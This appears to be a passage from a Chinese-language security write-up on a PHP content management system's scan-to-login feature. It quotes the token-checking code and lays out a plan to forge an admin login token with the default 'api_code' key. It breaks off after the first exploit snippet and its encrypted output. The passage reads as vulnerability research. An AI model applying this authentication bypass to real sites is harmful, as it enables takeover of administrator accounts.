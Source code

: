 ```php
    }
    $this->lib('token')->keyid($api_code);
    $msg = $this->lib('token')->decode($content);
    if(!$msg || !is_array($msg) || !$msg['id'] || !$msg['user'] || !$msg['time'] || !$msg['domain']){
       $this->error(P_Lang('数据解码失败'));
    }
    //超过30天，告知无效
    $time = $this->time - $msg['time'];
    if($time>(30*24*60*60)){
       $this->error(P_Lang('数据超过30天，自动无效'));
    }
    $domain = $this->_domain();
    if($msg['domain'] != $domain){
       $this->error(P_Lang('数据来源不准确'));
    }
    $rs = $this->model('admin')->get_one($msg['id']);
    if(!$rs || $rs['account'] != $msg['user']){
       $this->error(P_Lang('账号不一致'));
    }
    $data = array('id'=>$rs['id'],'user'=>$rs['account'],'time'=>$this->time);
    $data['domain'] = $domain;
    //基于临时密码生成账号密串
    $keyid = $this->lib('file')->cat($file);
    $this->lib('token')->keyid($keyid);
    $this->lib('token')->expiry(300);
    $logincode = $this->lib('token')->encode($data);
    $this->model('log')->add(P_Lang('生成客户端密钥，用于下次扫码快速确认登录'));
    $this->success(array('account'=>$rs['account'],'logincode'=>$logincode));
}
```

该方法首先用`config`数据表中的`api_code`的内容作为密钥来解密请求参数`content`的密文，当存在`id`、`user`、`time`、`domain`四个键值对

时会找到请求参数`$fid`对应文件的内容做密钥，加密`$data`变量，并将结果在`logincode`字段返回。可以看到`$data`的内容和`update_f`方法中`quickcode`的键值是完全相同的。并且`config`数据表是安装时进行初始化的属于默认值。

根据上面分析我们可以有如下思路

1. 利用数据库中`api_code`的值来加密用户为`admin`的信息
2. 利用`checkadm`接口来生成`update`接口所需的加密字符串
3. 通过访问`update`接口生成checking文件进行登录

ps：好像一切都想好的地方发展，难道成了？！

0x04 思路实现
---------

1. 编写代码生成`admin`信息加密文本

```php
$data = array('id'=>1, 'user'=>'admin', 'time'=>'1698570334', 'domain'=>'192.168.31.243');
$api_code = $this->model('config')->get_one('api_code',$this->site['id']);
$this->lib('token')->keyid($api_code);
$msg = $this->lib('token')->encode($data);
$this->success($msg);

//res: {"info":"bdd983NgUnCTROK1Ksf7\/brkwgpThiRBRoWfgRzzVducS7Fzg1ND9mbR3mNGg6R6VvAy2CVIaMOwOyAa7PbZgZWkzspzFBs4oWPY1VcJyQ0xZ3WmSXsIXEiFSuXYqMcLpMXFs","status":1}
```
